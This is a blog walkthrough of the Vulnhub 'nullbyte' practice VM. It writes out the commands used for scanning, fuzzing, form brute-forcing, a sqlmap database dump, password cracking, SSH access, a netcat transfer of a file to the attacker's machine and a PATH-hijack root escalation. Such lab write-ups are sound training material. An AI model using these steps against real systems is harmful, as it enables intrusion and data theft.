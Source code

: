 ```yaml
---
layout: post
title:  "vulnhub nullbyte vm"
date:   2016-03-01 00:00:10 +0000
categories: vulnhub
---
```

<p>This is about nullbyte, a breakable vm from <a href="http://www.vulnhub.com">vulnhub</a>. Vulnhub is the ultime playground if you like coding/security :)
<br>
<p> I'm using debian with the packages i need to play with these VM's, yes i could use kali or any other vm but those are overwhelming for me.
<p> So let's get stated. Finding the machine:
{% highlight bash %}
sudo netdiscover -r 192.168.0.0/16
{% endhighlight %}
<p>The one with name CADMUS COMPUTER SYSTEMS is the nullbyte machine. Next, let's check what it's running:
{% highlight bash %}
nmap -p- -sV 192.168.1.84
{% endhighlight %}
<p>Running apache on port 80, running ssh on port 777. There are other two services that i ignored.
<p>So, i open browser and found a pretty much unuseful page e h... i tried to search for other directories/pages on the server so i used wfuzz.py and also made lame attempt to replace wfuzz.py. Just because. This lame attempt is visible in <a href="https://github.com/impious/trash">github</a> as hfuzz.rb.
{% highlight bash %}
python wfuzz.py -c -z file,wordlist/general/common.txt --hc 404 -o html  http://192.168.1.84/FUZZ
{% endhighlight %}
<p> A few directories but the most import was <b>phpmyadmin</b>. There must be something more than a simple html with an image. Neverless i couldn't find anything useful, so i took a glimpse at the <a href="http://anthonyferrillo.net/blog/nullbyte-solution/">walkthrough</a> and saw that people checked the image.
<p>By now i already knew that there was an url on the image, shamefully i know, but 'live and learn'. Went through an opened it in the browser and saw that the newly found page had a form and message saying the password wasn't hard. Again, i build an brute forcer to found the password. You can check the code <a href="https://github.com/impious/trash">github</a> as brute.rb. After a few minutes i found the password 'elite'. Btw, for real brute forcing use hydra.
<p>Anyway, a new form was found with a texbox on it. After playing around in the browser i found http://192.168.1.84/kzMb5nVYJw/420search.php which had a few data on it . That search smelled as sqli so i fired up sqlmap.py. Yes dump-all. No big databases on this playing vm's.
{% highlight bash %}
sqlmap -u http://192.168.1.84/kzMb5nVYJw/420search.php?usrtosearch=ramses --dump-all
{% endhighlight %}
<p> Got the password YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE from the output tables. So i searched it on google which pointed me to base64 and md5. Although it didn't have a "=" which usually means it's encode in base64  <a href="https://www.base64decode.org/">https://www.base64decode.org/</a> to decode then to <a href="https://hashkiller.co.uk/md5-decrypter.aspx">https://hashkiller.co.uk/md5-decrypter.aspx</a>. <br>Password: omega.
<p>Ok, now i had an user.
{% highlight bash %}
ssh ramses@192.168.1.84 -p 777
{% endhighlight %}
<p> First thing i always check is .bash_history.
{% highlight bash %}
cat .bash_history
{% endhighlight %}
<p> a file in backup and the website itself.
{% highlight bash %}
cd /var/www
{% endhighlight %}
<p>Went through the directory tree and reached the 420search.php.
{% highlight bash %}
cat 420search.php
{% endhighlight %}
<p> Eheheh, by now i could login in phpmyadmin with root:sunnyvale. I also tried this login in command line with no luck.
<p>In the .bash_history they pointed out the file 'procwatch', which owned/runned as root. I couldn't find anything more about it and it seemed to run a simple 'ps'. After a while, i copied it to my computer with netcat:
{% highlight bash %}
nc -lnvvp 4444 > procwatch
{% endhighlight %}
{% highlight bash %}
nc 192.168.1.73 4444 < procwatch
{% endhighlight %}
<p>I remembered a trick i read in other vm's walkthroughs, so i symlinked /bin/sh into ps and changed the  path to prioritize my symlinked:
{% highlight bash %}
ln -s /bin/sh ps
export PATH=.:$PATH
{% endhighlight %}
<p>
and then run the process and voilá, root. This was pure luck because i could only do that if the parameter passed which i assumed was 'ps' didn't have the full path.
<br><p> Saw other people resolution and i must learn how to gdb. Others created a newly ps and changed the path to prioritize. Anyway, my deadlock in this was one the damn image, Neverless it was pure fun. :)
